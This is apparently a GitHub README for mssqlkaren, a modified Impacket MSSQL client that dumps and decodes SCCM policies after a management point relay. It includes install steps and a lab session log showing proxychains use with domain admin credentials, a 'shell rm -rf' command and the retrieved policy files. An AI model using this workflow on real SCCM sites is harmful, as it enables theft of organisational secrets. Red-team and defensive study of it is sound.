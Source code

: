 # mssqlkaren


<p align="center">
<img width="600" height="400" alt="image" src="https://github.com/user-attachments/assets/ea210893-921b-46a6-a9d1-2b542dfb7880" />
</p>




## Updated mssqlclient.py to automate pulling policies after a mp relay to the sccm database shown [here](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)

## Installation

Requirements

```
uv
```

Install

```
git clone https://github.com/garrettfoster13/mssqlkaren.git
cd mssqlkaren
uv sync
```

## Usage
After the relay, proxy mssqlkaren.py and switch to the site database. Then just run `speak_to_the_manager` and the policy assignments and policies will be downloded and decoded to the `karen` dir in your cwd

```
proxychains uv run mssqlkaren.py ludus/domainadmin:password@10.6.10.13 -windows-auth
Impacket v0.13.0.dev0+20250820.203717.835623ae - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(sccm-sql): Line 1: Changed database context to 'master'.
[*] INFO(sccm-sql): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (ludus.domain\domainadmin  dbo@master)> shell rm -rf karen/
SQL (ludus.domain\domainadmin  dbo@master)> use cm_123
ENVCHANGE(DATABASE): Old Value: master, New Value: CM_123
INFO(sccm-sql): Line 1: Changed database context to 'CM_123'.
SQL (ludus.domain\domainadmin  dbo@CM_123)> speak_to_the_manager
[*] Querying for x64 unknown computer guid
[*] Querying for Policy Assignments
[*] Querying for policy bodies
SQL (ludus.domain\domainadmin  dbo@CM_123)> shell ls -l karen/policies
total 1008
-rw-r--r--  1 garrettfoster  staff   2470 Aug 20 19:59 {114e816f-70aa-4da9-907f-7e14bb2b957a}.xml
-rw-r--r--  1 garrettfoster  staff   3042 Aug 20 19:59 {182d7bd0-cea6-4570-a4de-444774d09f42}.xml
-rw-r--r--  1 garrettfoster  staff   2540 Aug 20 19:59 {2053343a-1c1c-44ec-bec9-93780641594c}.xml
-rw-r--r--  1 garrettfoster  staff  19066 Aug 20 19:59 {234e8ae9-ec04-4d63-9ec7-268bec15ef2c}.xml
-rw-r--r--  1 garrettfoster  staff   6028 Aug 20 19:59 {258afa12-675f-4476-9565-57809e393c5e}.xml
-rw-r--r--  1 garrettfoster  staff  13005 Aug 20 19:59 {26e744a4-3509-4f02-89e5-fa8e9e3ae4cd}.xml
-rw-r--r--  1 garrettfoster  staff   3292 Aug 20 19:59 {27cc5fa3-4e63-4423-9aa7-451512f6d768}.xml
-rw-r--r--  1 garrettfoster  staff   2985 Aug 20 19:59 {2a6896cf-48e1-4f75-973b-08c98fdb622b}.xml
-rw-r--r--  1 garrettfoster  staff   1010 Aug 20 19:59 {2fd0ea60-add1-4f2d-8d67-b3453725889f}.xml
-rw-r--r--  1 garrettfoster  staff   1148 Aug 20 19:59 {3126f6e4-b123-4240-ad62-131ef797847a}.xml
-rw-r--r--  1 garrettfoster  staff   5786 Aug 20 19:59 {3d36d26a-4070-49f7-955c-acfc4cb990b5}.xml
-rw-r--r--  1 garrettfoster  staff   1354 Aug 20 19:59 {417e86f5-5f1e-4257-bfe9-4ece7a0ce349}.xml
-rw-r--r--  1 garrettfoster  staff    662 Aug 20 19:59 {43d41839-ab58-4f62-97a6-fa0e77fcde81}.xml
-rw-r--r--  1 garrettfoster  staff    184 Aug 20 19:59 {573ed3a8-e7b5-41a8-9147-1e8d6c63b7ee}.xml
-rw-r--r--  1 garrettfoster  staff    608 Aug 20 19:59 {5ab48cac-1069-45e9-9c63-0085c1c9ea4d}.xml
-rw-r--r--  1 garrettfoster  staff   1881 Aug 20 19:59 {61758974-eeec-4cc9-9653-10835f45b3bf}.xml
-rw-r--r--  1 garrettfoster  staff  14689 Aug 20 19:59 {65609f99-df85-4f18-b055-4fb83a88a8e8}.xml
-rw-r--r--  1 garrettfoster  staff  75048 Aug 20 19:59 {786182d4-e95f-46fb-aef7-4dd98cdd781f}.xml
<snipped>
```
